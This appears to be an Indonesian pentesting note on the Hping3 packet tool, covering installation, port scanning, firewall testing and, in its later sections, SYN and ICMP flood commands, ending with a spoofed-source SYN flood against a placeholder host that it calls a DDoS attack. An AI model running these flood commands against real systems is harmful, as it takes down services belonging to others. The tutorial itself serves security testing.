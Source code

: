 # Jalankan percobaan serangan DOS menggunakan Hping3
- ### apa itu aplikasi Hping3
- Aplikasi bernama Hping3 adalah sebuah alat baris perintah yang digunakan untuk mengirim dan menganalisis paket jaringan. Ini sering digunakan untuk pengujian keamanan dan troubleshooting jaringan. Hping3 dapat mengirim berbagai jenis paket TCP, UDP, ICMP, dan RAW-IP, sehingga memungkinkan pengguna untuk melakukan berbagai jenis tes.
- **Ping**: Menguji konektivitas dengan mengirim paket ICMP.
  logseq.order-list-type:: number
- **Port Scanning**: Memeriksa port yang terbuka pada sistem target.
  logseq.order-list-type:: number
- **DDoS Testing**: Menguji ketahanan sistem terhadap serangan DDoS.
  logseq.order-list-type:: number
- **Traceroute**: Mengetahui jalur yang diambil paket ke tujuan tertentu.
  logseq.order-list-type:: number
-
- Aplikasi ini berjalan di Operating System Linux dan tersedia default terinstall di repository Operating System Kali Linux, salah satu Operating System yang populer digunakan untuk penetration testing
-
- ## Perintah install Hping3 di Operating System Linux sesuai distronya:
- Ubuntu/Debian
  logseq.order-list-type:: number
  
  
  ```sudo apt update
  sudo apt update
  sudo apt install hping3
  ```
- Fedora
  logseq.order-list-type:: number
  
  ```sudo
  sudo dnf install hping3
  ```
- CentOS/RHEL
  logseq.order-list-type:: number
  
  ```sudo
  sudo yum install epel-release
  sudo yum install hping3
  ```
- Arch
  logseq.order-list-type:: number
  
  ```sudo
  sudo pacman -S hping
  ```
-
- ## Perintah penggunaan Hping3
- Berikut adalah beberapa cara penggunaan Hping3 yang lebih spesifik dan tingkat lanjut dalam konteks pentesting:
- TCP SYN Scan
  logseq.order-list-type:: number
  
  ```bash
  hping3 -S -p 1-65535 --fast <IP_TUJUAN>
  ```
  -S: Mengirim paket SYN.
  --fast: Mempercepat pengiriman paket.
- TCP Connect Scan
  logseq.order-list-type:: number
  
  
  ```bash
  hping3 -c 1 -S -p <PORT_TUJUAN> <IP_TUJUAN>
  ```
  `-c 1`: Mengirim satu paket.
- Uji Firewall dan IDS
  logseq.order-list-type:: number
  
  
  ```bash
  hping3 -A -p <PORT_TUJUAN> --tcp-timestamp <IP_TUJUAN>
  ```
  -A`: Mengirim paket dengan flag ACK.`
  --tcp-timestamp`: Menambahkan opsi timestamp ke paket TCP.
- uji DDOS Resilience
  logseq.order-list-type:: number
  
  
  ```bash
  hping3 --flood -S -p <PORT_TUJUAN> <IP_TUJUAN>
  ```
  --flood: Mengirim paket secara terus-menerus
- ICMP Paket Manipulation
  logseq.order-list-type:: number
  
  
  ```bash
  hping3 -1 -d 100 --flood <IP_TUJUAN>
  ```
  `-d 100`: Mengatur ukuran paket ICMP.
- Fragmentasi Paket
  logseq.order-list-type:: number
  
  ```bash
  hping3 -S -p <PORT_TUJUAN> --frag <IP_TUJUAN>
  ```
  --frag: Mengaktifkan fragmentasi paket.
- TCP Window Size Manipulation
  logseq.order-list-type:: number
  
  ```bash
  hping3 -S -p <PORT_TUJUAN> --win 5000 <IP_TUJUAN>
  ```
  --win: Mengatur ukuran jendela TCP.
- Menguji TCP Options
  logseq.order-list-type:: number
  
  ```bash
  hping3 -S -p <PORT_TUJUAN> --tcp-option 8 <IP_TUJUAN>
  ```
  
  --tcp-option: Menambahkan opsi TCP kustom.
- ## opsi fitur hping3
- berikut opsi fitur Hping3 yang dapat diexplore
- ![image.png](../assets/image_1728370745702_0.png)
  ![image.png](../assets/image_1728370778076_0.png)
  ![image.png](../assets/image_1728370805387_0.png)
- ### contoh penggunaan:
- Kode ini adalah perintah untuk melakukan serangan DDoS menggunakan alat hping3 terhadap target yang diberikan. Penjelasan dari setiap opsi perintah adalah sebagai berikut:
  
  
  ```bash
  sudo hping3 -c 300000 -d 144 -S -w 64 -p 443 --flood --rand-source target.com -V
  ```
- `-c 300000`: Mengirim 300000 paket ke target
- `-d 144`: Mengatur ukuran data setiap paket menjadi 144 byte
- `-S`: Mengatur flag SYN pada paket
- `-w 64`: Mengatur ukuran jendela TCP menjadi 64 byte
- `-p 443`: Mengatur port tujuan ke 443 (HTTPS)
- `--flood`: Mode serangan banjir untuk mengirim sebanyak mungkin paket
- `--rand-source`: Menggunakan sumber alamat IP acak untuk setiap paket
- `target.com`: Nama domain target yang akan diserang
- `-V`: Menampilkan output dalam mode verbose (detail)
  
  Perlu diingat bahwa melakukan serangan DDoS tanpa izin adalah ilegal dan dapat menyebabkan konsekuensi hukum.
-